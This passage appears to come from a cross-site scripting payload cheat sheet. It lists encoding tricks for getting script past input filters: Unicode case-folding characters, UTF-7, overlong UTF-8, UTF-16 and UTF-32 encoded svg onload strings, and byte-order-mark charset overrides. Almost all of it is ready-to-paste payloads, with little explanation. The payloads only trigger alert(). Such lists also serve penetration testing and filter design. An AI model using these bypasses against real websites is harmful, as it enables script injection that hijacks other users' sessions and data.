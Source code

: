 Bypass using Unicode converted to uppercase

```javascript
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k

<ſvg onload=... > become <SVG ONLOAD=...>
<ıframe id=x onload=>.toUpperCase() become <IFRAME ID=X ONLOAD=>
```

### Bypass using UTF-7

```javascript
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
```

### Bypass using UTF-8

```javascript
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```

### Bypass using UTF-16be

```javascript
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

### Bypass using UTF-32

```js
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

### Bypass using BOM

Byte Order Mark (The page must begin with the BOM character.)
BOM character allows you to override charset of the page

```js
BOM Character for UTF-16 Encoding:
Big Endian : 0xFE 0xFF
Little Endian : 0xFF 0xFE
XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

BOM Character for UTF-32 Encoding:
Big Endian : 0x00 0x00 0xFE 0xFF
Little Endian : 0xFF 0xFE 0x00 0x00
XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```
